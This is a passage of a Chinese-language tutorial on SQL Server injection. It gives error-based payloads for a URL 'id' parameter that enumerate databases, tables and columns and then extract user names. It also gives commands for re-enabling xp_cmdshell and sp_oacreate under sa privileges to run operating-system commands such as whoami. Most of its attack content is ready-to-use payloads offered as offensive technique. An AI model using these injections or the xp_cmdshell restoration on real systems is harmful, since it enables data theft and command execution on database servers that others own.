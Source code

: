 <a class="reference-link" name="%E6%B3%A8%E5%85%A5%E8%BF%87%E7%A8%8B"></a>注入过程
- 查库
```
and 1=(select top 1 name from master..sysdatabases where dbid&gt;4) //（&gt;4 获取系统库 &lt;4 获取用户库）
and 1=(select top 1 name from master..sysdatabases where dbid&gt;4 and name&lt;&gt; ‘1’) //查询下一个数据库
```
- 查表
```
?id=1 and 1=(select top 1 name from sysobjects where xtype=’U’ and name &lt;&gt; ‘threads’ and name &lt;&gt; ‘users’ )
```
- 列名
```
?id=1 and 1=(select top 1 name from syscolumns where id =(select id from sysobjects where name = ‘users’) and name &lt;&gt; ‘uname’ )
```
- 拿数据
```
?id=1 and 1=(select top 1 uname from users)
```

### <a class="reference-link" name="2.3%20xp_cmdshell"></a>2.3 xp_cmdshell

<a class="reference-link" name="2.3.1%20%E5%85%B3%E4%BA%8E"></a>**2.3.1 关于**

**xp_cmdshell:** 扩展存储过程将命令字符串作为操作系统命令 shell 执行，并以文本行的形式返回所有输出。因为存在安全隐患，在SQLServer 2005后默认设置为关闭。

```
exec xp_cmdshell ‘whoami’
```

**存储过程**：存储过程(Stored Procedure),是一组为了完成特定功能的SQL 语句

可见[详解](https://www.w3cschool.cn/sql/sql-storage.html)

> <p>消息 15281，级别 16，状态 1，过程 xp_cmdshell，第 1 行<br>
SQL Server 阻止了对组件 ‘xp_cmdshell’ 的 过程’sys.xp_cmdshell’ 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用 ‘xp_cmdshell’。有关启用 ‘xp_cmdshell’ 的详细信息，请参阅 SQL Server 联机丛书中的 “外围应用配置器”。</p>

产生错误信息，但是如果我们拥有sa账户，或者存在sa权限用户的注入点，就能够直接开启组件

<a class="reference-link" name="2.3.2%20%E6%81%A2%E5%A4%8D%E5%AD%98%E5%82%A8%E8%BF%87%E7%A8%8B"></a>**2.3.2 恢复存储过程**

从SQL Server 2008开始，xp_cmdshell就是默认关闭状态，不过对于SA权限的用户来说，这些都是可恢复的。
- 删除或恢复 sp_addextendedproc
```
/ 删除 /
drop procedure sp_addextendproc
drop procedure sp_oacreate
exec sp_addextendedproc
/ 恢复 /
dbcc addextendedproc (“sp_oacreate”,”odsole70.dll”)
dbcc addextendedproc (“xp_cmdshell”,”xplog70.dll”)
```
- 恢复 sp_oacreate 和 xp_cmdshell
```
exec sp_addextendedproc xp_cmdshell , @dllname = ‘xplog70.dll’
```
